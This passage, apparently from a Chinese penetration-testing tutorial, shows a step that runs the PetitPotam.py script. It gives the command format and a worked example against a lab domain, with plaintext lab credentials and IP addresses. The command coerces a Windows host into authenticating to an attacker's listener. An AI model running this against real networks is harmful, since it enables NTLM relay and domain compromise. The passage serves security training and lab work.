 [![](assets/1701606771-972988b83ef554a49e41c4632e29fcc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144413-e5c16242-7c6f-1.png)  
c、使用 Petitpotam.py 脚本  
[https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)

```plain
#格式：
python Petitpotam.py -d domain -u username -p password <RESPONDERIP> <TARGET>

#示例：
python3 PetitPotam.py -d hacke.testlab -u Al1ex -p 'Kksvqm@123' 192.168.174.129 192.168.174.160
```
